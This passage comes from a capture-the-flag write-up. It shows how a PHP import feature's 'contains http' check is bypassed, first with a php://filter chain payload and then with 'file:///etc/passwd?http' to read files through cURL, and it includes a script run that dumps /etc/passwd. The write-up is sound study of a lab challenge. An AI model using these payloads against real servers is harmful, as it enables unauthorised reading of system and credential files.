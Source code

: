 If we try the above payload, the application will output the following message:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Intigriti-Challenge/1025/images/Pasted%20image%2020251008134028.png)

Since the application is just checking the URL **contains** the string `http`, we can simply append that string in our payload. This works because wrapper [`php://temp`](https://www.php.net/manual/en/wrappers.php.php#wrappers.php.memory) can have junk text:

```
php://filter/convert.iconv.UTF8.CSISO2022KR|[...]|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp,http
```

If we do that, we'll have a different message!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Intigriti-Challenge/1025/images/Pasted%20image%2020251008134348.png)

Oh! Looks like this import feature uses PHP's [cURL library](https://www.php.net/manual/en/book.curl.php) to fetch remote resources!

### Arbitrary File Read

According to [`curl_init` parameter documentation](https://www.php.net/manual/en/function.curl-init.php#refsect1-function.curl-init-parameters), the `url` parameter supports [`file://` protocol](https://www.php.net/manual/en/wrappers.file.php) by default, because [PHP config directive `open_basedir`](https://www.php.net/manual/en/ini.core.php#ini.open-basedir) is not set by default.

The `file://` protocol allows us to read arbitrary files like this:

```
file:///etc/passwd
```

But how can we bypass the `http` string check? Well, it's actually very simple. We can just append the string into a [HTTP query string](https://en.wikipedia.org/wiki/Query_string) like this:

```
file:///etc/passwd?http
```

By doing so, PHP's cURL library parses the URL like this:
- Protocol: `file://`
- File path: `/etc/passwd`
- HTTP query string: `http`

With that said, let's try to read file `/etc/passwd`!

Oh btw, for our convenience sake, we can use the following Python script:

<details><summary markdown="span"><strong>read_files.py</strong></summary></details>

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|14:09:01(HKT)]
└> python3 read_files.py '/etc/passwd'
[+] File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[...]
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```
